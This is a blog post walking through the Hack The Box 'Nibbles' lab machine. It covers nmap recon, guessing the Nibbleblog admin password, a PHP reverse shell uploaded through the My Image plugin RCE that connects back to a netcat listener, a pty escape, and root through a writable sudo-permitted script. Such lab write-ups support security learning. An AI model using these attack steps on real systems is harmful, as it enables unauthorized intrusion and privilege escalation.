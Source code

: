 ```yaml
---
layout: post
current: post
cover: assets/images/posts/2018/03/nibbles-writeup/nibble_banner.jpg
navigation: True
title: 'Nibbles Writeup'
date: 2018-03-08
tags: ctf
class: post-template
subclass: 'post'
author: christoffer
---
```

> "My writeup of the Hack the box Nibbles box... Nibble nibble!"

Connecting to Hack the Box[^1] using the supplied VPN, my Nibbles box have the IP: 10.10.10.75
As per usual, lets start with Recon and NMAP the target IP
```
root@kali:~/Nibbles$ nmap -p- --version-all -sV -sS 10.10.10.75
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-09 07:44 CET
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.18 seconds
```
Seeing port 80 open, lets browse to that and look at the source code, as the base directory doesn't show anything revealing.
```
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```
Seeing that we have a new directory to explore, lets go to /nibbleblog/.
![nibblesblog-root](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-root.png)
So that points to the Content Management System (CMS) called Nibbleblog, which is opensource and free to download the sourcecode, which means we can take a look at it.
A bit of googling points me to the github https://github.com/dignajar/nibbleblog
Where the basefile "admin.php" looks interesting, and sure enough it does exist on our target.
![nibblesblog-admin](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-admin.png)
The next interesting file from the github looks to be "install.php", on our target blog it is obviously already installed, nontheless it might be worth checking out!
![nibblesblog-install](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-install.png)
Lets follow the update link to the update page!
![nibblesblog-update](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-update.png)
So this further reveals two files where one is quite interesting, as config files usually contains usernames even possibly passwords, and other essential config parameters!
So lets browse to /nibbleblog/content/private/config.xml
```
<config>
[...snip...]
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
[...snip...]
</config>
```
So this time the config file does not reveal any passwords, although we're not emptyhanded as we do get a valid username "admin".
After some further enumeration i could not find a hint towards a password or any other vulnerability to use. So i resulted in trying THC-Hydra[^2] and a small passwordlist in an attempt to run a dictionary against the login page!
Which only got me on their blacklist and blocked me a couple minutes from making further login attempts.
![nibblesblog-login-blacklist](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-login-blacklist.png)
Then after some further checking of the source code, i recalled it supposed to be a fairly simple box, so back to some default passwords.
Bingo, user: Admin, Password: nibbles so a weak password indeed.
Doing a grep for the password "nibbles" in the standard "rockyou.txt" that is included in Kali linux.
```
root@kali:~/Wordlists$ grep 'nibbles' rockyou.txt
nibbles
nibbles1
[...snip...]
```
We can see that doing the hydra would indeed work... eventually, you'd just have to do some timeouts between attempts.
Either way, we have the password and is logged in to the CMS admin panel!
![nibblesblog-logged-in](assets/images/posts/2018/03/nibbles-writeup/nibblesblog-logged-in.png)
Next up would be to try and get a shell on the system somehow, so back to google!
It eventually pointed me to another security researchers blog [CureSec Nibbleblog 4.0.3 RCE](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)[^3]
The PoC Exploit work in 4 steps
```
1. Obtain Admin credentials
2. Activate My image plugin
3. Upload PHP shell, ignore warnings
4. Visit http://localhost/nibbleblog/content/private/plugins/my_image/image.php
```
So since we are already logged in, we can go to step two and activate the "My Image Plugin" under Plugins in the CMS Admin Panel.
Then lets create and upload a php reverse shell.
My favourite php-reverse-shell is included in kali, that pentestmonkey created.
Copy that to the working directory by issuing.
```
root@kali:~/Nibbles$ cp /usr/share/webshells/php/php-reverse-shell.php .
```
Then edit the $ip and $port variable in the php script, in this example i use port 4000. Once thats done, we can upload it to the CMS and start a netcat listener on our chosen port with (nc -lvvp 4000)
In this example i used curl to trigger the RCE since the "image.php" is in a public folder.
```
root@kali:~/Nibbles$ curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```
That should kick of a basic shell created by the PHP script to the Netcat listener.
Although the shell we recieve is a limited one, so lets enumerate which perl and python libraries are present to escape the limited shell.
```
root@kali:~/Nibbles$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.2] from nibbles.htb [10.10.10.75] 49562
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 01:55:01 up 4 days,  6:33,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which perl
/usr/bin/perl
$ which python3
/usr/bin/python3
$ python3 -c "import pty; pty.spawn('/bin/bash');"  
nibbler@Nibbles:/$ ls /home/nibbler
ls /home/nibbler
personal  personal.zip  user.txt
nibbler@Nibbles:/$
```
Since i am a Python guy, that's a quite an easy choice.
Now that we have the "user.txt" flag, lets get root!
One easy command to run is "sudo -l", which will report if the current user is in the /etc/sudoers file, as well list what commands the current user is allowed to run.
```
nibbler@Nibbles:/$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/$
```
Easy enough, at a quick glance in enumeration we can see that user nibbler is allowed to run "/home/nibbler/personal/stuff/monitor.sh" as root without a password!
At this point getting the root flag should be fairly simple!
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/cat /root/root.txt" > monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745[...snip...]8ef88c
nibbler@Nibbles:/home/nibbler/personal/stuff$
```
Done.

[^1]: [ www.hackthebox.eu]( www.hackthebox.eu)
[^2]: https://tools.kali.org/password-attacks/hydra
[^3]: https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

